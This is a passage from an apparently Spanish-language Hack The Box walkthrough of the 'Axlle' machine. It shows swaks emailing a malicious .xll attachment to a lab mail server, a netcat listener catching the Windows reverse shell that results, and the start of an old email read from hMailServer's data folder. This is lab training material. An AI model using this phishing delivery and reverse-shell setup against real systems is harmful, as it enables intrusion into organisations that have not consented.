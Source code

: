 Enviaremos este "documento" utilizando la herramienta de Linux `swaks` a `accounts@axlle.htb`, mientras que al mismo tiempo nos quedamos esperando por una consola en nuestro netcat que estará en escucha por el puerto 443.

Sin necesidad de credenciales, podremos enviarlo sin problemas:

```bash
❯ swaks --server 10.10.11.21 --from "uwu@axlle.htb" --to "accounts@axlle.htb" --attach @invoice.xll
=== Trying 10.10.11.21:25...
=== Connected to 10.10.11.21.
<-  220 MAINFRAME ESMTP
 -> EHLO localhost
<-  250-MAINFRAME
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<uwu@axlle.htb>
<-  250 OK
 -> RCPT TO:<accounts@axlle.htb>
... [snip]
-> 
 -> ------=_MIME_BOUNDARY_000_34944--
 -> 
 -> 
 -> .
<-  250 Queued (14.376 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

y en el listener que hemos dejado en escucha antes, recibiremos esto:

```bash
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.21 53977
Microsoft Windows [Version 10.0.20348.2527]
(c) Microsoft Corporation. All rights reserved.

C:\>
```

### axlle\\dallon.matrix

Si inspecionamos los archivos del servidor de correo, encontraremos un correo viejo de dallon.matrix que dice lo siguiente:

```bash
C:\Program Files (x86)\hMailServer\Data\axlle.htb\dallon.matrix\2F>type "{2F7523BD-628F-4359-913E-A873FCC59D0F}.eml"
type "{2F7523BD-628F-4359-913E-A873FCC59D0F}.eml"
Return-Path: webdevs@axlle.htb
Received: from bumbag (Unknown [192.168.77.153])
	by MAINFRAME with ESMTP
	; Mon, 1 Jan 2024 06:32:24 -0800
Date: Tue, 02 Jan 2024 01:32:23 +1100
To: dallon.matrix@axlle.htb,calum.scott@axlle.htb,trent.langdon@axlle.htb,dan.kendo@axlle.htb,david.brice@axlle.htb,frankie.rose@axlle.htb,samantha.fade@axlle.htb,jess.adams@axlle.htb,emily.cook@axlle.htb,phoebe.graham@axlle.htb,matt.drew@axlle.htb,xavier.edmund@axlle.htb,baz.humphries@axlle.htb,jacob.greeny@axlle.htb
From: webdevs@axlle.htb
Subject: OSINT Application Testing
Message-Id: <20240102013223.019081@bumbag>
X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/

Hi everyone,
```